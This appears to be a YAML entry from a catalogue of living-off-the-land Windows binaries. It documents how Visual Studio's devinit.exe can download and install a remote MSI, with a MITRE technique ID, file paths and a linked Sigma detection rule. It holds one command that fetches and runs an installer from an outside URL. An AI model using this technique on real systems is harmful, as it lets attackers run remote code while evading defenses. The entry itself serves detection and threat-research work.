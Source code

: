 ```yaml
---
Name: Devinit.exe
Description: Visual Studio 2019 tool
Author: mr.d0x
Created: 2022-01-20
Commands:
  - Command: devinit.exe run -t msi-install -i https://example.com/out.msi
    Description: Downloads an MSI file to C:\Windows\Installer and then installs it.
    Usecase: Executes code from a (remote) MSI file.
    Category: Execute
    Privileges: User
    MitreID: T1218.007
    OperatingSystem: Windows 10, Windows 11
Full_Path:
  - Path: C:\Program Files\Microsoft Visual Studio\*\Community\Common7\Tools\devinit\devinit.exe
  - Path: C:\Program Files (x86)\Microsoft Visual Studio\*\Community\Common7\Tools\devinit\devinit.exe
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/b02e3b698afbaae143ac4fb36236eb0b41122ed7/rules/windows/process_creation/proc_creation_win_devinit_lolbin_usage.yml
Resources:
  - Link: https://twitter.com/mrd0x/status/1460815932402679809
Acknowledgement:
  - Person: mr.d0x
    Handle: '@mrd0x'
---
```

